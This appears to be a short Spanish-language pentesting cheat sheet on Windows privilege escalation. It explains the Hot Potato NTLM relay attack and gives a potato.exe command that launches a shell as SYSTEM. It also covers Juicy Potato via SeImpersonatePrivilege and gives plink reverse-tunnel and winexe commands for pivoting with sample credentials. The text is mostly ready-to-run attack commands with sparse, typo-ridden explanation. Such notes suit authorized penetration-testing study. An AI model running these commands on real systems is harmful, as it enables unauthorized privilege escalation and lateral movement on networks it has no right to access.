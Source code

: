 - Hot Potato es una vulnerabilidad de spoofing con un NTLM relay attack para ganar privilegios del sistema el ataque indica a Windows autendicarse como SYSTEM user a un servidor de HTTP falso usando el NTLM, entonces el NTLM es usabada en el SMB para un RCE

```

potato.exe -ip x.x.x.x -cmd "C:\PrivEsc\shell.exe" -enable_http server true -enable_defender true -enable_spoof true -enable_exhaust true

```
## Juicy Potatos

- Si el servicio tiene asignada en el un token de SeImpersonatePrivilege activada entonces es vulnerable a un juicy potat, rotten potate....

```
> whoami /priv

```

## Port Forwarding

-  Pivotear a servicios que no tengamos accesos desde la red externa 

- Editar el archivo en tu linux de /etc/ssh/sshd_config 

```
> plink.exe root@10.10.10.x -R [LPORT]:127.0.0.1:[RPORT]
> winxec -U 'admin%password123' //127.0.0.1 cmd.exe

```
